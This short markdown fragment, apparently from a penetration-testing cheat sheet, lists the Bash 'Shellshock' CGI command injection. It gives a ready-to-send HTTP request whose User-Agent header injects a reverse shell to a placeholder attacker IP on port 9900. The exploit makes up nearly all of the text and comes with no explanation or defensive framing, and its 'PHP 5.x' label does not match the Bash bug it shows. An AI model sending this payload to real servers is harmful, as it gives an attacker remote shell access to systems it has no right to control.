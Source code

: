## CVE


### CGI

Bash - 'Shellshock' Environment Variables Command Injection

```bash
PHP 5.x Shellshock Exploit

GET /cgi-bin/admin.cgi HTTP/1.1
User-Agent: () { :;}; /bin/bash -c "/bin/sh -i >& /dev/tcp/<ip>/9900 0>&1"
```



